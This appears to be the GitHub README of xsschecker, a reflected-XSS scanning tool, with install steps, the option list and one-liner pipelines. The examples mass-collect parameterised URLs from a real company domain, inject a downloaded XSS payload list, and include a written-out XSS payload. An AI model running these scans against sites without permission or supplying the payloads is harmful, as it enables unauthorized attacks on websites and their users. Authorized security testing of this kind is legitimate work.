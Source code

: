 ## xsschecker

xsschecker tool checking reflected endpoints finding possible xss vulnerable endpoints.

## Installation
```
go install github.com/rix4uni/xsschecker@latest
```

## Download prebuilt binaries
```
wget https://github.com/rix4uni/xsschecker/releases/download/v0.0.5/xsschecker-linux-amd64-0.0.5.tgz
tar -xvzf xsschecker-linux-amd64-0.0.5.tgz
rm -rf xsschecker-linux-amd64-0.0.5.tgz
mv xsschecker ~/go/bin/xsschecker
```
Or download [binary release](https://github.com/rix4uni/xsschecker/releases) for your platform.

## Compile from source
```
git clone --depth 1 github.com/rix4uni/xsschecker.git
cd xsschecker; go install
```

## Usage
```
Usage: xsschecker [OPTIONS]

Options:
  -H string
        Custom User-Agent header for HTTP requests. (default "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36")
  -ao string
        File to append the output instead of overwriting.
  -filter
        Print only URLs Exclude this from output, (e.g. Vulnerable/Not Vulnerable: [status] [server]).
  -i string
        Input file containing list of URLs.
  -match string
        The string(s) to match against the domain response. Separate multiple strings with commas. (required) (default "alert(1), confirm(1), prompt(1)")
  -maxssc int
        Maximum number of status code responses required before skipping all URLs from that domain, This flag only can be use with -ssc flag. (default 20)
  -nc
        Do not use colored output.
  -o string
        File to save the output.
  -proxy string
        Proxy server for HTTP requests. (e.g., http://127.0.0.1:8080)
  -retries int
        Number of retry attempts for failed HTTP requests. (default 1)
  -scdn string
        Comma-separated server names to skip all URLs for (e.g., "cloudflare,AkamaiGHost,CloudFront,Imperva").
  -ssc string
        Comma-separated status codes to skip all URLs from a domain if encountered (e.g., 403,400).
  -t int
        Number of concurrent threads. (default 20)
  -timeout int
        Timeout for HTTP requests in seconds. (default 15)
  -u string
        Single URL to test.
  -v    Enable verbose output for debugging purposes.
  -version
        Print the version of the tool and exit.
  -vuln
        If set, only vulnerable URLs will be printed.
```

## Usage Examples
### Reflected XSS Mass Automation
```
▶ Step 1:
wget https://raw.githubusercontent.com/rix4uni/WordList/refs/heads/main/payloads/xss/favourite.txt
if grep -qv "^rix4uni" "favourite.txt";then sed -i 's/^/rix4uni/' "favourite.txt";fi

▶ Step 2:
echo "dell.com" | subfinder -duc -silent -nc | waybackurls | urldedupe -s | grep -aE '=|%3D' | \
egrep -aiv '.(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|icon|pdf|svg|txt|js)' | \
pvreplace -silent -payload favourite.txt -fuzzing-mode single | xsschecker -nc -match 'rix4uni' -vuln

▶ Step 3:
You can run pyxss to check false positive or check manually one by one url in chrome
```

### Reflected XSS Oneliner for 1 payload
```
▶ Step 1:
echo "testphp.vulnweb.com" | waybackurls | urldedupe -s | grep -aE '=|%3D' | \
egrep -aiv '.(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|icon|pdf|svg|txt|js)' | \
pvreplace -silent -payload 'rix4uni"><Img Src=OnXSS OnError=(confirm)(1)>' -fuzzing-mode single | xsschecker -nc -match 'rix4uni' -vuln

▶ Step 2:
You can run pyxss to check false positive or check manually one by one url in chrome
```

### Reflected XSS Oneliner Command1 and Reflected XSS Oneliner Command2 Results Comparison
![image](https://github.com/rix4uni/xsschecker/assets/72344025/8034668c-42c3-47b1-9fee-5a58c2c96d63)
